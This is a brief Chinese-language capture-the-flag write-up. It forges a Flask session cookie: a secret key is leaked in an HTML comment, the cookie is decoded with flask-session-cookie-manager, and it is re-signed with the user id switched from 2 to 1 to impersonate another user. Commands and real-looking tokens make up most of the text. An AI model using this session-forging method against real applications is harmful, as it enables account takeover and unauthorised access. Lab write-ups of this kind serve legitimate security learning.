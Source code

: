 2. 分析一下cookie内容，结合题目发现是session构造

3. 查了资料，下载脚本：https://github.com/noraj/flask-session-cookie-manager

4. 在忘记密码页面,得到：secretkey

```
<!-- secretkey: th3f1askisfunny -->
```

5. 解码

```
python flask_session_cookie_manager3.py decode -s “th3f1askisfunny” -c “.eJwljjkOwzAMwP6iuYPs6LDzmUCyJbRr0kxF_14DBVcS4AeOPON6wv4-73jA8Zqwg1NULhlNhAubKBtLOCc6U0fCqQONCZe3bVRJk2YzbZUGzRoi5L2kF-IM7Gk0o2uiVhZNaSV0uBfpNGnTYbZ6xtIXiSgT1sh9xfm_qfD9AV9VLiU.ZsWZAw.serOtgnY1BhZSNuOx3aYEYkg34Y”

#结果
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '2'}
```

6. 编码

```
#待编码内容
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '1'}

#编码结果：
.eJwljjkOwzAMwP6iuYPk6LDzmUC2JbRr0kxF_14DBVcS4AeOPON6wv4-73jA8ZqwQ-coQhlVVUhcTVw0uiR24YaM0wa6MC5v27iwJc_qVgsPniVUuTfKTiwZ2NJ5RrNEK6KWWils9E7aePJmw331gtQWiagT1sh9xfm_Ifj-AF9SLiQ.ZsWaSQ.YVMvNUkro2QI49RcVyr_VOoQIdw
```

提交到cookie，点击按钮拿到flag

